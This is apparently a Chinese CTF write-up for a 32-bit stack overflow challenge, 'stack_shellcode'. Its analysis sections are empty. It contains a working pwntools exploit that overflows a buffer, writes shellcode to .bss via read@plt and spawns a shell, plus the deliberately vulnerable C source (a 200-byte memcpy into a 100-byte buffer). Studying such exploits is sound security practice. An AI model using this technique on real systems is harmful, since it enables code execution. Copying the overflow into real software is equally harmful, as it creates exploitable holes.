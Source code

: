 ```yaml
---
layout:     post
title:      stack_shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程





## 解题思路

思路



exp.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./stack_shellcode')
a = ELF('./stack_shellcode')

bss_addr = 0x0804a040
read_plt = a.plt['read']

sh.sendline('a'*112 + p32(read_plt) + p32(bss_addr) + p32(0) + p32(bss_addr) + p32(100))
print sh.recv()
shellcode = asm(shellcraft.sh())
sh.sendline(shellcode.ljust(len(shellcode)))
sh.interactive()
```



stack_shellcode.c

```c
#include <stdio.h>

#include <unistd.h>

#include <string.h>


void deal_user_info(char* name)
{
    char dealed_name[100];
    memcpy(dealed_name, name, 200);
}

int main()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char name[200];

    puts("welcome\n");
    read(STDIN_FILENO, name, 200);
    deal_user_info(name);
    printf("bye\n");
}
```



## 总结



